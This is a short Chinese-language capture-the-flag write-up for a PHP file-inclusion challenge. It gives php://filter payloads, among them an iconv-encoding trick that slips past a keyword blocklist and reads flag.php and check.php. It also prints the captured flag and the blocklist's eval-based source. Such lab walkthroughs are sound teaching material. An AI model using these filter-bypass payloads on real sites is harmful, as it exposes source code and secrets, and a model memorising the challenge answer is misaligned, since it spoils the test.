




## 题目描述
try your best to find the flag

## 解题
打开靶场得到代码：


文件包含
尝试使用php://filter协议进行文件读取；
payload：`filename=php://filter/read=convert.base64-encode/resource=index.php`


发现被check.php给拦截了。去掉中间的读取方式发现没有触发拦截

根据题意，尝试使用不同的方式进行读取，即更换读取方式。
最终得到payload：`?filename=php://filter/convert.iconv.utf-8*.utf-16*/resource=flag.php`


获取到`flag{c413b6ca-e3b1-4c18-977b-2911166377f6}`


check.php源代码：
`?filename=php://filter/convert.iconv.utf-8*.utf-16*/resource=check.php`
```php
<?php 
if($_GET["filename"])
{ $preg_match_username = 'return preg_match("/base|encode|print|zlib|quoted|write|rot13|read|string/i", $_GET["filename"]);'; 
 if (eval($preg_match_username)) { die("do not hack!"); } }
```



